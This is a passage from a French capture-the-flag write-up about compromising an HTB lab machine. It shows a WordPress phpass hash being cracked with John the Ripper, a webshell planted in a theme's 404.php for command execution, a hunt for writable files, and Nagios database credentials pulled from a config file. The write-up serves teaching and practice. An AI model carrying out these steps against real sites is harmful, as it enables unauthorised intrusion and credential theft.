 Et pour le *Wordpress* il faut bien sûr extraire le hash `phpass` de la base.

```shellsession
$ john --wordlist=wordlist.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:11 38.35% (ETA: 14:03:45) 0g/s 11262p/s 11262c/s 11262C/s hayears..hcfamilies
Power9           (admin)     
1g 0:00:00:20 DONE (14:03) 0.04844g/s 11209p/s 11209c/s 11209C/s power87..power955
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Comptez 15 minutes pour casser le `phpass` tout de même !

Via le `Nagios` il semble qu'il n'y ait rien que l'on puisse faire directement pour obtenir une exécution de commande, on va donc utiliser le compte Wordpress et aller comme d'habitude éditer un script PHP via le `Theme Editor`.

Le thème `twentynineteen` est modifiable, on peut ajouter un webshell dans le `404.php` et obtenir notre RCE de cette façon :

`http://www.midwest.htb/wp-content/themes/twentynineteen/404.php?cmd=id`

Sur le système je peux lister les fichiers sur lesquels j'ai un accès en écriture et ils sont nombreux :

```bash
find / -type f -writable 2> /dev/null | grep -v /var/www | grep -v /proc
```

Grosso modo ça correspond aux fichiers dans les dossiers suivants :

```
/usr/local/nagios/
/usr/local/nagiosxi/
/var/lib/snmp/mibs/
/usr/local/nagvis/
```

## Usine à gaz

On a donc pas mal de contrôle sur le `Nagios`. Je ne connais ce software que de nom alors j'ai d'abord cherché ses fichiers de configurations. Par exemple dans le premier dossier il y a le fichier `/usr/local/nagios/etc/ndo.cfg` qui contient les identfiants suivants :

```ini
# Default NDO config for Nagios XI 

db_user=ndoutils
db_pass=n@gweb
db_name=nagios
db_host=localhost
db_port=3306
#db_socket=/var/lib/mysql.sock
db_max_reconnect_attempts=5
```

